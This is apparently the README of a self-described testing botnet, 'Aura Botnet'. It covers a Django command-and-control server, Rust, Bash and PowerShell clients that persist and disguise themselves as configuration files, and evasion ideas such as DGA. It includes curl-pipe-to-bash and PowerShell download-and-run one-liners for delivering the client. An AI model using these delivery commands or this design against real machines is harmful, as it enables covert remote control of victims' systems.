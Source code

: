 # Aura Botnet

C&C Server
---
The botnet's central C&C server utilizes the Django framework as the backend.
It is far from the most efficient web server, but this is offset by the
following:
* Django is extremely portable and therefore good for testing/educational
purposes
* The server is only handling simple POST requests and returning text
* Static files should be handled by a separate web server (local or remote) that
excels in serving static files, such as nginx
* Django includes a very intuitive and useful admin console that can be used for
managing bots and adding commands


The admin console located at `http://your_server:django_port/admin` can be
accessed after setting up the database and a superuser (see below).

Database
---
The Django server is currently configured with a simple setup for mysql. The
current configuration can be changed in the *settings.py* file under
`django-server/aura`. You would, of course, need to setup the database on your
machine. You may wish to switch use postgresql, or even sqlite instead; this
easy to do thanks to Django's database API. More information on configuring this
and the admin console can be found in the following
[tutorial](https://docs.djangoproject.com/en/1.11/intro/tutorial02/)
and [documentation](https://docs.djangoproject.com/en/1.11/ref/databases/).

Bot Client
---
The primary clients for Windows and Linux are written in Rust. Alternate clients
are written in Bash and Powershell. The client will gather relevant system
information and send it to the C&C server to register the new bot.
Identification is done by initially creating a file containing random data --
referred to as the *seed* throughout the code -- which will then be hashed each
time the client runs to identify the client and authenticate with the C&C
server. It will then install all the files in the folder specified in the code,
and initialize the system service or schedule a task with the same privileges
that the client was run with. The default settings have the client and other
files masquerading as configuration files.

Usage
---
You will need Rust installed on the platform that you wish to compile for.
Unfortunately, there is no simple method of cross-compiling that I am aware of.
Go into the client directory (`client/rust-linux` or `client/rust-windows`) and
run:

```
cargo build --release
```

The binary will be sent to `client/rust-*/target/release/`.

The client simply needs to be run in the same folder as any necessary components
(systemd services for Linux clients and launcher.vbs for Powershell) on the
target machine, or installed via web delivery (see below).

Client Web Delivery
---
The *static* folder can be used to store files to be served by a web server --
preferably an nginx server running on a different port or host as your Django
server. You will need to edit the index files, compile, and place the files into
the folders. The simplicity of executing a web delivery makes it easy to
integrate with exploits that run arbitrary code. An example in bash would be:

```
curl http://static-server-name/welcome/linux/rust | bash
```
In Powershell:
```
Invoke-RestMethod http://static-server-name/welcome/windows/rust | powershell
```

This will run the client with the current privileges, install any necessary
files, and cleanup the downloaded files.

Configuring Commands
---
The client periodically communicate with the specified server using POST
requests to receive a command (default is every 5 minutes). Commands can be set
to run for specific bot groups defined by operating system and user privilege.
This is specified in `django-server/groups.json`. The only reserved group
numbers are `-1`, for priority commands that are run by all bots, and `-2`, for
default commands that are run by all bots only if there is no other command to run;
you can also assign commands to individual bots using the hash of their seed.
Each command can be given a start time and end time. Oneshot commands will only
run once on each bot. These can easily be managed through the Django shell or
admin console.

Misc.
---
Because this is for testing purposes, the C&C server needs to be
hard-coded into client and web delivery files. It is currently set to
*localhost* on all the files. This is because an actual botnet would use something
like a domain generation algorithm (DGA) to sync a stream of changing domains on
the client side with a stream of disposable domains being registered -- or just
really bulletproof hosting like the original Mirai botnet.

The code is also not obfuscated nor is there any effort put toward preventing
reverse engineering; this would defeat the purpose of being a botnet for
testing and demonstrations.

Since this is only for testing, I have not implemented any means of spreading.
I may use very controlled means of doing so when I implement support
for client modules.

The *killswitch* folder contains scripts for easy client removal when testing
on your devices.

TODO
---
- Add support for "modules" to be run easily on arbitrary clients. E.g.: Start
an interactive shell, grab arbitrary system files, install keylogger, spread
using various exploits etc.
- Design system to make certain bots into node servers that act as disposable
command and control servers
- Create clients for mobile devices
- Implement compatibility with running C&C server as a hidden Tor service

<h2>This repo is for testing purposes only. This is not meant to be
implemented in any real world applications except for demonstrations.</h2>

